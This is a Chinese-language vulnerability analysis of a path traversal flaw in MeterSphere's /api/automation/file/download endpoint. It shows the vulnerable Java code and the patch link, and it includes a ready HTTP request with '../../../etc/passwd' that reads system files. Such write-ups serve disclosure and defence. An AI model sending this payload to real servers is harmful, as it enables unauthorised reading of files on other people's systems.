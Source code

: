 issue中提到了漏洞的关键函数

```Java
public byte[] loadFileAsBytes(FileOperationRequest fileOperationRequest) {
    File file = new File(FileUtils.BODY_FILE_DIR + "/" + fileOperationRequest.getId() + "_" + fileOperationRequest.getName());
    try (FileInputStream fis = new FileInputStream(file);
         ByteArrayOutputStream bos = new ByteArrayOutputStream(1000);) {
        byte[] b = new byte[1000];
        int n;
        while ((n = fis.read(b)) != -1) {
            bos.write(b, 0, n);
        }
        return bos.toByteArray();
    } catch (Exception ex) {
        LogUtil.error(ex);
    }
    return null;
}
```

可以看到函数从fileOperationRequest中读取id和name并拼接进File对象，未进行任何的过滤就进行了文件读取。往前回溯，看哪里引用了这个函数，并关注fileOperationRequest变量是否用户可控。很快可以在`io.metersphere.api.controller.ApiAutomationController`中找到download函数，对该方法进行了调用。

```Java
@PostMapping("/file/download")
public ResponseEntity<byte[]> download(@RequestBody FileOperationRequest fileOperationRequest) {
    byte[] bytes = apiAutomationService.loadFileAsBytes(fileOperationRequest);
    return ResponseEntity.ok()
            .contentType(MediaType.parseMediaType("application/octet-stream"))
            .header(HttpHeaders.CONTENT_DISPOSITION, "attachment; filename=\"" + fileOperationRequest.getName() + "\"")
            .body(bytes);
}
```

metersphere后端基于springboot开发，这个函数对应的就是/api/automation/file/download路由，并且fileOperationRequest直接来源于用户输入，同时有RequestBody注解，可以使用json或者xml格式的HTTP请求体进行数据的输入。

因此可以构建如下payload读取/etc/passwd文件

```Java
POST /api/automation/file/download HTTP/1.1
Host: host.com
Cookie: COOKIE
Content-Type: application/json

{"id":"","name":"../../../etc/passwd"}
```

这里的/api/automation路径属于需要认证的路径，因此该漏洞利用需要授权。

#### 修复补丁

GitHub 补丁commit：<https://github.com/metersphere/metersphere/commit/18c62d91f8e0ad5b1f5730a757c5a195eb0f0723>
